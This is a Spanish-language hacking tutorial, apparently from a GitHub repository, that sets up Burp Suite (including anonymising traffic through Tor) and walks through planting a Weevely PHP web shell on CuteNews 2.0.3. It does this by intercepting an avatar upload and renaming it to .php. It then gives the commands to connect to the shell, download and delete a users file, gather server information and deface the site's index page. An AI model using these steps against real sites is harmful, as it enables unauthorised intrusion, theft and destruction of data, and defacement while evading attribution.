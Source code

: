 # Shell Upload RFI

## Controlando Peticiones HTTP

Controlar peticiones podemos interceptar y modificar todo lo que este en el navegador.

### Burp Suite 

Burp Suite es una herramienta utilizada principalmente para las auditorías de seguridad en aplicaciones web,  que permite combinar pruebas tanto automáticas. como manuales y que dispone de un gran número de funcionalidades.

* **Target**: permite fijar un objetivo y construir un SiteMap a partir de él.
* **Proxy**: entre navegador e internet, que permite interceptar las peticiones e inspeccionar el tráfico.
* **Spider:** una arana que inspecciona las páginas web y recursos de las aplicación de manera automatizada.
* **Scanner**: un escaner avanzado para aplicaciones web que permite detectar diferentes tipos de vulnerabilidades.
* **Intruder**: automatiza procesos; fuzzing, fuerza bruta, ataques sql, xxs entre otros.
* **Repeater:** manipula las peticiones interceptadas para después replicarlas.
* **Secuencer**: analiza aleatoriamente los tokens de sesión.
* **Decoder**: codificador y decodificador.
* **Comparer:** compara peticiones y respuestas.
* **Extender:** personalización de plugins y ataques.

##### 1. Configurando Burp Suite

El proxy se encontrará en medio de la comunicación entre los navegadores y el servidor web de la página que estamos auditando.

Abrir BurpSuit

```bash
burpsuit
```

Proxy > Options
Proxy Listeners debería estar agregado 127.0.0.1 como hostname y el puerto 8080.

Configurar el proxy de Firefox;

Connection Settings >> Manual proxy configuration
```
HTTP Proxy: 127.0.0.1
Port 8080
Sock v5
```

```
Se puede utilizar la herramienta Foxy Proxy para agilizar el procedimiento
```

#### 2. Interceptando 

Tan fácil como ir a BurpSuit >> Proxy >> Interception >> Interception ON 

Ya con eso podemos interceptar el trafico de nuestro navegador.

#### 3. Creando certificados CA.

Cada vez que intentemos entrar en alguna web HTTPS nos advertira que el sitio es inseguro y tendremos que anadir la excepción, para evitar esto solo tienes que crear un CA.

Burpsuit >> Proxy >> Options >> CA certificate >> Export >> Certificate in DER Format y lo guardamos

Firefox >> Settings >> Expert >> See Certificate >> Import

Seleccionamos los cerficados anteriores y listo.

#### 4. Anonimato con BurpSuit 

Podemos agregar un anonitamo con TOR, abriendo el navegador TOR y viendo en que puerto recibe TOR la conexión.

TOR Browser >> Settings >> Expert >> Network >> Configuration 
```
IP 127.0.0.1
Port 9150
Socks v5
```

Luego replicar la configuración en Burp Suite

BurpSuit >> Options >> Connections >> Use SOCKS Proxy
```
SOCKS proxy host: 127.0.0.1
SOCKS proxy port: 9150
```

Y se comprueba en la ventada BurpSuit >> Alerts


## Weevely

*Weevely* es un *shell web* para CuteNew diseñado para fines posteriores a la explotación que puede extenderse a través de la red en tiempo de ejecución.

Cargue el agente PHP weevely a un servidor web de destino para obtener acceso de shell remoto a él. Tiene más de 30 módulos para ayudar con las tareas administrativas, mantener el acceso, proporcionar conocimiento de la situación, elevar los privilegios y diseminarse a la red objetivo.

Lea la página Instalar para instalar weevely y sus dependencias.

Lea la página de Introducción para generar un agente y conectarse a él.

Explore la Wiki para leer ejemplos y casos de uso.
https://github.com/epinna/weevely3

Para generar, solo ha

```bash
cd weevely3
./weevely.py generate <password> <name>.php
```

1. Ir alguna parte de la página web donde se necesite subir algun archivo.
2. Interceptar la web con el proxy de BurpSuit
3. Intentar enviar el archivo.
3. BurpSuit hay que inspeccionar que se logre interceptar, hay que modificar la salida a .php y liberar con el Forward.
4. El BurpSuit regresará una instrucción GET que indica a que parte del servidor fue subido el archivo.
5. Luego se regresa a la consola y se inyecta el archivo.
```bash
./weevely.py http://servidor/cutenews.2.0.3/uploads/avatar_vicente_DEVIL.php passwd
```

6. Para escalar privilegios, se puede descargar el archivo usrs.txt para luego borrarlos.
```bash
file_download users.txt /tmp/users.txt
del users.txt 
```

* Buscar la información del servidor
```bash
system_info -info client_ip
```

* Deface
```bash
file_upload /direccion/archivo/index.html
```










